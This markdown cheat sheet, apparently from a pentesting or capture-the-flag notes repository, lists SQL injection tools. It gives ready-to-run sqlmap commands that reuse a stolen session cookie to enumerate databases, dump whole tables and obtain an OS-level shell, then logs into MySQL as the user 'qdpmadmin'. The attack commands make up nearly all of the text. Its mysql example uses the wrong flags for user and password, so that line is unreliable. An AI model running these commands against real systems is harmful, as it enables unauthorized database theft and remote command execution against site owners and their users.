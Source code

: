 Tools used for SQL Injection:
1. SQLmap
2. Mole
3. Blisqy
4. Blind-sql-bitshifting
5. NoSQLMap

### SQLmap

- Login to the website with provided credentials
- Go to view profile section and copy the URL
- Open Inspect element > console and type

```java
document.cookie
```
- Copy the cookie value and use copied values in following command

- Command for enumerating databases
```bash
sqlmap -u <copied_profile_url> --cookie='<copied_cookie_value' --dbs
```

- Command for enumerating tables

```bash
sqlmap -u <copied_profile_url> --cookie='<copied_cookie_value' -D <database_name> --tables
```

- Command for dumping whole table data

```bash
sqlmap -u <copied_profile_url> --cookie='<copied_cookie_value' -D <database_name> -T <table_name> --dump
```

- Command for getting OS level shell on machine using SQLmap

```bash
sqlmap -u <copied_profile_url> --cookie='<copied_cookie_value' --os-shell
```


### MySQL Access with username and password

- Login to MySQL database

```bash
mysql -U qdpmadmin -h 192.168.xxx.xxx -P <password> 
```

- Command to list all the databases

```bash
show databases;
```

- Command to select one database

```bash
use <database_name>;
```

